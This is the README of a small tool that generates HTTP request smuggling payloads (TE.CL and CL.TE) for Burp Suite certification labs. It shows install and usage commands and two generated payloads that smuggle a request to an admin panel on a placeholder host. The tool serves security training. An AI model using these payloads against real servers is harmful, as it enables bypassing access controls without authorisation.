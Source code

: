 ## Introduction
This tool is developed for burp suite practitioner certificate exam and HTTP Request Smuggling labs. The most important about this tool is <b>TE.CL</b> vulnerability exploitation and chunk size auto generator so you don't have to calculate the chunk size for the second(malicious request). <b>Τhis tool is simple but very useful</b>

The inspiration about this tool it was the [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension tool from burpsuite to use it you must have a valid burpsuite license.

For the valid chunk generator (TE.CL) i found the source code from [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension. You can find the source code below. <br>
> [TE-CL | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/TE-CL.py) <br>
> [CL-TE | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/CL-TE.py)

#### Attention this tool does not offer automated exploitation. You have to identify the injection point and exploit it manually!


## Installation
```
$ git clone https://github.com/dhmosfunk/simple-http-smuggler-generator.git
$ python3 tool.py --help
```

## Usage
Sometimes needs to use and append more HTTP Headers in the malicious request for different purposes E.g. bypass localhost restrictions. So you can add your own HTTP headers at `/lib/clte.py` or `/lib/tecl.py`.

```
$ python3 tool.py --help
usage: tool.py -v clte/tecl -host xxxxxxxxxx.net  -a admin_panel -m GET

options:
  -h, --help            show this help message and exit
  -v VULNERABILITY, --vulnerability VULNERABILITY
                        Possible values CLTE or TECL
  -host HOSTNAME, --hostname HOSTNAME
                        Target HOSTNAME
  -a ACTION, --action ACTION
                        ex. admin_panel
  -m METHOD, --method METHOD
                        Request Methods [GET, POST]
```

### Generating TE.CL Request
```
$ python3 tool.py -v tecl -host xxxx.net -a admin_panel -m get

---[TE.CL Payload Generated]---

Transfer-Encoding: chunked
Content-Length: 3

75
GET /admin_panel HTTP/1.1
Host: xxxx.net
Content-Type: application/x-www-form-urlencoded
Content-length: 15

x=1
0

---[TE.CL Payload Generated]---

[INFO]> Dont forget the \r\n after 0
Also disable the auto-update Content-Length from menu
```

### Send TE.CL Request
![image](https://user-images.githubusercontent.com/45040001/190521300-8a2cd4ec-3727-4c5c-a631-da0e86cb56f2.png)


### Generating CL.TE Request
```
python3 tool.py -v clte -host xxxx.net -a admin_panel -m get

---[CL.TE Payload Generated]---

Transfer-Encoding: chunked

0

GET /admin_panel HTTP/1.1
Host: xxxx.net
X-Ignore: X


---[CL.TE Payload Generated]---
```

### Send CL.TE Generated Request
![image](https://user-images.githubusercontent.com/45040001/190520684-1941ec58-15ef-4c92-96c1-4e4fc8181d8e.png)
